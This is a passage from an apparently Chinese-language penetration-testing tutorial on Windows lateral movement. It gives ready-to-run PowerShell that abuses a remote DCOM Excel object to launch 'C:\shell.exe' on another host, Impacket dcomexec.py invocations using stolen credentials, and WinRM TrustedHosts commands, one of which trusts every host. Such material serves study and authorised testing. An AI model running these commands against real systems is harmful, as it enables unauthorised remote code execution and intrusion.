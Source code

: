 使用条件：适用于**Windows 10 和 Windows Server 2012 R2**等版本的系统。

```plain
# 通过 PowerShell 与 DCOM 进行远程交互，创建 Excel.Application 对象的实例：
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")) 

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程：$com.Document.Application.shellExecute("C:\shell.exe") 

# 完整的命令：
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")).Document.Application.shellExecute("C:\shell.exe")
```

### [Impacket 里的 dcomexec.py 脚本](#toc_impacketdcomexecpy)

Impacket 里面提供的 dcomexec.py 脚本可以提供一个类似于 wmiexec.py 脚本的半交互式 shell，但使用的是 DCOM，目前支持 MMC20.Application，ShellWindows 和 ShellBrowserWindow 对象。

命令格式如下：

```plain
./dcomexec.py domain/username:password@ip 
./dcomexec.py domain/username:password@ip <command>
```

# [WinRM 的利用](#toc_winrm)

WinRM 是通过执行 WS-Management 协议（用于远程软件和硬件管理的 Web 服务协议）来实现远程管理的，允许处于一个共同网络内的 Windows 计算机彼此之间互相访问和交换信息，对应的端口是 5985。在一台计算机启用 WinRM 服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过 WinRM 对其进行远程管理了。

**只有在 Windows Server 2008 以上版本的服务器中，WinRm 服务才会自动启动。**

**在利用 WinRM 进行横向移动时，需要拥有远程主机的****管理员凭据信息****。**

## [通过 WinRM 执行远程命令](#toc_winrm_1)

Windows 远程管理提供了两个工具：  
① Winrs，允许远程执行命令的命令行工具，利用了 WS-Manage 协议  
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的 WinRM 服务。

在默认情况下，无法通过 WinRM 连接到目标系统。可能出现错误：Winrs error：WinRM 客户端无法处理该请求。可以将默认身份验证与 IP 地址结合使用：  
① 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供显式凭据  
② 使用 Winrm.cmd 配置 TrustedHosts。

执行以下命令，将目标地址添加到 TrustedHosts 中：

```plain
winrm set winrm/config/client @{TrustedHosts="192.168.1.1"} 

set-Item WSMan:localhost\client\trustedhosts -value *    
# 通过 powershell，信任所有主机
```

## [Winrs](#toc_winrs)
